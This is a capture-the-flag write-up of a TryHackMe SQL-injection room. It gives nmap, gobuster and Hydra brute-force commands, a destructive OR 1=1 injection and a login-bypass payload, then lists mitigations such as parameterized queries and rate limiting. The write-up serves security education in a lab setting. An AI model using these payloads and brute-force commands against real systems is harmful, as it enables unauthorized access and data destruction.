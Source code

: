 [Lesson Learned?](https://tryhackme.com/room/lessonlearned)

**Difficulty:** Easy 

**Objective:** Identify and exploit SQL injection safely to bypass login and retrieve the flag without triggering destructive queries.

---

## Table of Contents  
- [1. Summary](#1-summary)  
- [2. Methodology](#2-methodology)  
- [3. Reconnaissance](#3-reconnaissance)  
- [4. Enumeration](#4-enumeration)  
- [5. Exploitation](#5-exploitation)  
- [6. Privilege Escalation](#6-privilege-escalation)  
- [7. Post Exploitation](#7-post-exploitation)  
- [8. Flags / Proof](#8-flags--proof)  
- [9. Mitigations](#9-mitigations)  
- [10. Notes](#10-notes)

---

## 1. Summary  
**IP/URL:** 10.10.157.160  
**Service/Ports:** 22/SSH, 80/HTTP  
**Entry Point:** SQL injection on login form  
**Privilege Escalation:** Not applicable  
**Outcome:** Login bypass via crafted injection using valid username, flag retrieved

---

## 2. Methodology  
Following the PTES (Penetration Testing Execution Standard):  
1. Reconnaissance  
2. Scanning & Enumeration  
3. Exploitation  
4. Post-Exploitation  
5. Reporting

---

## 3. Reconnaissance  
Ran Nmap scan:  
nmap -sS -sV 10.10.157.160  
Result:  
PORT   STATE SERVICE VERSION  
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1  
80/tcp open  http    Apache httpd 2.4.54 (Debian)  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

---

## 4. Enumeration  
Used Gobuster to look for web directories:  
gobuster dir -u http://10.10.157.160/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  
Result:  
/manual (Status: 301)

---

## 5. Exploitation  
Initial attempt:  
Tried SQL injection with `' OR '1'='1' --`  
Resulted in:  
- Warning about OR 1=1 causing DELETE statements to wipe data  
- Flag was deleted, and the box had to be reset  
Lesson: OR 1=1 can be dangerous, especially when queries are reused in UPDATE/DELETE contexts

After resetting the box, ran Hydra to brute-force usernames:  
hydra -L /usr/share/wordlists/names.txt -p test123 10.10.102.103 http-post-form "/:username=^USER^&password=^PASS^:Invalid username and password" -f -V -o found_users.txt  
Found users:  
arnold, karen, kelly, marcus, martin, naomi, patrick, sophia, stuart, veronica, etc.

Crafted safer SQL injection using known username:  
karen' AND ''=''--  
This worked, bypassing login and displaying the flag  
App logic was likely expecting 1 exact matching row, and this injection preserved that behavior

---

## 6. Privilege Escalation  
Not applicable — goal was to bypass login and retrieve the flag only

---

## 7. Post Exploitation  
No additional system access or escalation required  
Confirmed success through displayed flag and instructional message  
Message warned again about destructive OR 1=1 injections

---

## 8. Flags / Proof  
User Flag: THM{example_flag_here}  
Root Flag: N/A

---

## 9. Mitigations  
| Vulnerability              | Risk   | Suggested Mitigation                          |  
|---------------------------|--------|-----------------------------------------------|  
| SQL Injection              | High   | Use prepared statements / parameterized queries |  
| Weak error messages        | Medium | Avoid leaking backend logic in app responses   |  
| Brute-forceable usernames  | Medium | Rate-limit login attempts, implement CAPTCHA   |

---

## 10. Notes  
Time spent: ~30 minutes  
Tools used: nmap, gobuster, hydra, browser  
Lessons learned:  
- OR 1=1 is risky and can cause unintentional data destruction  
- Safer SQL injections can target logic paths without mass row selection  
- Always understand the backend query context before testing injections















